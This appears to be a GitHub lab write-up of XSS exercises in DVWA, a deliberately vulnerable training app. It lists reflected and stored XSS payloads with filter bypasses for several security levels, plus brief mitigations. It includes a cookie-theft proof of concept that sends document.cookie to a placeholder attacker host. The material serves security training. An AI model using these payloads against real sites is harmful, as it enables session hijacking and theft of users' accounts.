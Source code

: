 ## DVWA – Cross-Site Scripting (XSS)

---

### 🎯 Objective
Perform Reflected and Stored XSS attacks in DVWA at multiple security levels.

---

### 🧪 Reflected XSS

#### Low Security
```html
<script>alert('You are hacked!')</script>
```

#### Medium Security
```html
<ScRipt>alert('bypass')</ScRipt>
```
Bypasses case-sensitive filter.

#### High Security
```html
<svg onerror=alert('svg_xss')>
```

---

### 🧪 Stored XSS

#### Low Security
Inject in guestbook:
```html
<script>alert('You are hacked!')</script>
```

#### Medium Security
- `<script>` & quotes escaped
- Use `<svg>` or event handlers

#### High Security
- Regex strips `<script>` but `<svg>` bypass works:
```html
<svg onload=alert('Stored_XSS_Bypass')>
```

---

### 🧪 Cookie Theft PoC
```html
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>
```

---

### 🛡 Mitigation
- Encode all output
- Use CSP
- Validate inputs server-side

---

### 📌 Take-Aways
- XSS persists across sessions for all visitors
- Incomplete filters leave exploitable gaps
